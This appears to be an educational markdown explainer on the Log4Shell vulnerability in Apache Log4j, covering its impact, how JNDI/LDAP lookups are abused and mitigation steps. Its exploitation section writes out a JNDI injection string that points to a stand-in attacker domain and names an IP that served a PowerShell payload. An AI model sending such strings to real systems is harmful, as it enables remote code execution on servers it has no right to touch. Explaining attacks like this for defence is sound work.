


Seriousness of a vulnerability is viewed with two factors: 
1. the sheer number of systems that are vulnerable, and 
2. the ease with which an attacker can compromise a network

The vulnerability is associated with the user activity logger known as Log4J - a logging library freely distributed by the Apache Software Foundation. A security researcher working for Alibaba, Chen Zhaojun, first discovered the vulnerability and reported it to Apache on November 24, 2021 and since Dec 2021, Log4j was considered as a serious threat to come down the pipe in recent years. 

## What is Log4j and how impactful is the vulnerablity?
Log4j is a very popular Java library that has been around since 2001 and is used by countless pieces of software to log activity and error messages. Log4j will log messages in software and scan them for errors. The logging capabilities allow it to communicate with other internal functions on systems, such as directory services. This creates the opening for the vulnerability where remote code executions (RCE) allow an attacker to execute arbitrary code on a remote device.

Java is implemented across a wide spread range of digital products including cloud solutions, web servers, and apps making each of these products vulnerable to exploitation through the Log4Shell vulnerability. Hence, any Java software running systems can be impacted which is *a lot* of systems.

Because this security flaw is so widespread and most organizations are unaware that they're impacted, an exploitation frenzy is currently underway in the cybercriminal world. Security researchers have identified approximately **10 million Log4Shell exploitations attempts every hour**. Retail Industry is the most hard hit, followed by technology, financial services, manufacturing services and healthcare providers.

The [vulnerability CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228) has been given the Critical rating and the highest threat score possible (10.0) by the Common Vulnerability Scoring System (CVSS), the industry standard for at-a-glance assessments of the severity of security vulnerabilities.

## How it's exploited
Lightweight Directory Acess Protocol (LDAP) is a open-source application protocol that allows apps to access and authenticate specific user info across directory services. Employees need to regularly access usernames, passwords, email addresses, endpoints, and printers to fulfill their daily tasks. Such information is stored on company directories and LDAP is the protocol that efficiently connects users and applications to this information.

LDAP maps usernames to passwords, the protocol to authenticate users. Thus allows single sign-on (SSO), where users need to sign in only once to access all protected files and applications.

The vulnerable Log4j library, when passed a specially crafted string, will call out to an LDAP server, download the code hosted in the LDAP directory, and then execute that code. 

The vulnerability occurs due to a lack of sanitization in the lookup method used in the log4j library. An attacker can leverage JNDI (Java Naming and Directory Interface) to perform a request to a remote malicious resource as follows: 
`==${jndi:ldap://[attacker_domain]/file}==`

Using different protocols such as ldap, rmi and commands like upper/ lower, an attacker can create multiple attack string combinations. In addition, many obfuscation techniques are observed to avoid detection:

This allows cybercriminals to create a malicious LDAP server that stores code designed to take-over any server where it is executed, and then send applications/databases/APIs the string that points to their code.

The primary attack is to feed messages to Log4j that instruct the system to download malicious powershell script (018h4xuvxe) and execute malware from a remote server, which then grants the attacker greater access to the victim’s system.

The IP 2.56.59[.]123 that contains the link for payload by HTTP request downloads the paylaod and executes the powershell script. Malware script can be written with persistence functionalities to maintain access even if the system restarts. 

## Safety Measures
1. Quickest way to mitigate is to update all instances of Log4j to the latest version - Log4j 2.17.x and latest version available
2. Utilise custom built Log4j Vulnerability scanners made by numerous popular and trusted security vendors from the Open Source - like CISA, Huntress, Arctic Wolf, CrowdStrike, Amazon Inspector & AWS, etc.,
3. Disable JNDI - A design flaw in the JNDI Lookup plugin is primarily to blame for this critical vulnerability. JNDI facilitates code execution based on data found in the log, data that can easily be manipulated since its accepted by the logger without sanitation.
4. Update all firewall and IPS and use NGFW
5. Implement MFA